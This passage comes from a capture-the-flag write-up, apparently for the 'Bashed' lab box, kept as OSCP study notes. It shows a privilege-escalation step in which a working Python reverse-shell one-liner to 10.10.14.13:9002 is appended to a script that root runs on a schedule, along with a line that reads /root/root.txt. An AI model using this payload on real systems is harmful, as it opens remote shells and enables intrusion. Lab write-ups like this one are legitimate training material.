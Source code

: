 This worked! However, running the script gives us a permission denied when opening the file:

```bash
www-data@bashed:/$ sudo -u scriptmanager python /scripts/test.py
Traceback (most recent call last):
  File "/scripts/test.py", line 1, in <module>
    f = open("test.txt", "w")
IOError: [Errno 13] Permission denied: 'test.txt'
```

### Editing test.py to get a Shell as Root

So the program does not run as root - but maybe a process running as root is setup to regularly run it?

Linpeas didn't show up a cron job, but I thought I'd take a shot at spawning a shell and hoping the script got executed. I edited it to reuse the shell command from before:

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' | sudo -u scriptmanager tee -a /scripts/test.py
```

I checked that it looked okay:

```bash
www-data@bashed:/$ sudo -u scriptmanager cat /scripts/test.py   
f = open("test.txt", "w")
f.write("testing 123!")
f.close
f = open("/root/root.txt","r");print(f.read())
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

Then I just waited...

After 30 seconds or so I got a shell!

![[Pasted image 20210505111640.png]]

We can grab the flag:

![[Pasted image 20210505112810.png]]

That's the box!

![[Pasted image 20210505111945.png]]

# Tags

#writeup #oscp-prep #file-misconfiguration 
